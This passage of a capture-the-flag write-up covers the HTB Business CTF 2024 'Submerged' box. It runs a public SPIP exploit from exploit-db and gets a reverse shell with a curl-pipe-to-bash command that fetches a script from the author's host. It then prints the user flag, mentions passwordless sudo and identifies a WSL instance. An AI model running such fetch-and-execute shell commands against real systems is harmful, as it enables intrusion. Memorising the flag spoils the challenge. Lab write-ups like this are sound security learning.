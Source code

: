 Once this is set, we can access the site via the browser that comes with Burp.

{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_submerged_3.png" alt="" position="center" style="border-radius: 8px;" >}}

There's not much on the site apart from a link to another subdomain **spip.submerged.htb**. We'll add the hostname to burp as we did earlier.

{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_submerged_4.png" alt="" position="center" style="border-radius: 8px;" >}}

Visiting this new subdomain, there's no content on the site, we only see mentions of spip. I did a quick google search on any exploits related to spip and came across this script from exploitdb.

[https://www.exploit-db.com/exploits/51536](https://www.exploit-db.com/exploits/51536)

Since I didn't confirm the version of spip, I just executed the exploit hoping it works. I was then able to get a reverse shell.

```sh
http_proxy=127.0.0.1:8080 python 51536.py --url http://spip.submerged.htb -c 'curl http://10.10.14.95:9000/revshell.sh | bash'
```

The command downloads the reverse shell script from my web server and executes it, I use http_proxy to forward the request through burp since the hostname is configured there.

{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_submerged_5.png" alt="" position="center" style="border-radius: 8px;" >}}

After getting our shell, we can read user.txt. 

{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_submerged_12.png" alt="" position="center" style="border-radius: 8px;" >}}

user.txt: **HTB{SpIP_Abu53_4_RC3}**

### Privilege Escalation

Privilege Escalation to root is also straightforward as the user we have has sudo permission with no password.

{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_submerged_6.png" alt="" position="center" style="border-radius: 8px;" >}}

However, we do not get the root.txt in the root folder. After some enumeration, it was nowhere to found on the server.

Something I found peculiar was that when checking running processes, only a small number of them were listed which is not normal output for a linux server and a /init process running as root.

{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_submerged_7.png" alt="" position="center" style="border-radius: 8px;" >}}

This init binary is present in / and it's a 64 bit executable. Extracting strings from it, revealed several references of WSL indicating we were inside a WSL instance.

```sh
strings /init
```
